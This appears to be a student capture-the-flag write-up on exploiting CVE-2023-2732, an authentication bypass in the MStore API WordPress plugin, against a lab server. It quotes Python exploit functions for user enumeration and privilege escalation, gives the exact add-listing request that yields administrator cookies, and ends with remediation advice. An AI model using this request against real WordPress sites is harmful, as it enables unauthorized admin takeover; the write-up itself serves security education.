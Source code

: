 # CTF Week #3 (Wordpress CVE)

## Recognition

To begin, we accessed the target at http://143.47.40.175:5001, navigated to the `Shop` section, and selected `WordPress Hosting`. From there, we reviewed the `Additional Information` at the following URL: http://143.47.40.175:5001/product/wordpress-hosting/.
This information about the software and versions already gave us a start for the research phase.

<p align="center" justify="center">
  <img src="./assets/ctf3/plugins.png"/>
</p>

## CVE Research

Next, we conducted a vulnerability search via the [Search CVE List](https://cve.mitre.org/cve/search_cve_list.html) where the search query was composed of relevant versions and plugins: `Wordpress 5.8.1 MStore API 3.9.0 WooCommerce 5.7.1 Booster for WooCommerce 5.4.4`.

This search yielded four potential CVEs:

<p align="center" justify="center">
  <img src="./assets/ctf3/CVEs.png"/>
</p>

## CVE Selection

The goal was to exploit a vulnerability that would allow administrative access. After analysis, the most applicable CVEs for this purpose were: `CVE-2023-2734`, `CVE-2023-2733`, and `CVE-2023-2732`.

Since we needed to submit the vulnerability code as the first CTF flag, we got the confirmation that the vulnerability was indeed `CVE-2023-2732`.

## Finding an Exploit

While searching for exploits, we discovered a GitHub repository containing an exploit for `CVE-2023-2732`, available [here](https://github.com/RandomRobbieBF/CVE-2023-2732).

Although an attempt to execute the provided script resulted in errors, we were more interested in analyzing the source code, which led us to identify two key functions:

1. **fetch_usernames_rest_api**: This function retrieves the list of WordPress users via the REST API.

    ```py
    def fetch_usernames_rest_api(wordpress_url):
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 Edge/16.16299'}
        response = session.get(f"{wordpress_url}/wp-json/wp/v2/users", headers=headers,verify=False,timeout=30)
        ...
    ```
2. **sendem**: This function sends a request that exploits the vulnerability to add administrative permissions for a specified user.
    ```py
    def sendem(user_id, username):
        # Set up the request headers
        headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3'}
        # Send the request
        response = session.get(""+wordpress_url+"/wp-json/wp/v2/add-listing?id="+str(user_id)+"", headers=headers,verify=False,timeout=30)
        ...
    ```

The `fetch_usernames_rest_api` function allows us to extract user IDs, and `sendem` facilitates privilege escalation by exploiting the identified vulnerability.

## Exploiting the Vulnerability

1. We started by accessing http://143.47.40.175:5001/wp-json/wp/v2/users and retrieving the list of users as a JSON response:
<p align="center" justify="center">
  <img src="./assets/ctf3/admin_id.png"/>
</p>

2. From the response, we identified that the Administrator's user ID is `1`.
3. Using the `sendem` function, we crafted a URL to exploit the vulnerability by entering the following into the browser: http://143.47.40.175:5001/wp-json/wp/v2/add-listing?id=1.  
When trying to access this URL, the browser will start to load for a long time and, analyzing the requests, we can see that the same GET request to the URL is being executed in a loop, ending in a message saying "The page isn’t redirecting properly".  
However, the response to these requests come with cookies  with the admin login information, effectively granting administrative permissions to our session.
4. To find the flag, we searched for common URL patterns used for the WordPress admin dashboard and identified http://143.47.40.175:5001/wp-admin/index.php as a potential entry point.  
Upon accessing this URL, we successfully reached the admin dashboard. From there, we navigated to the **Posts** section, where we found a post titled "Message for our Employers", which contained the second CTF flag.

## Vulnerability Remediation

This vulnerability is caused by the MStore API plugin for WordPress not performing sufficient verification on the user being supplied during the add listing REST API request, for versions up to, and including, 3.9.2, as stated in [Wordfence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/mstore-api/mstore-api-392-authentication-bypass). For this reason, the solution is to update the plugin to version 3.9.3, or a newer patched version.
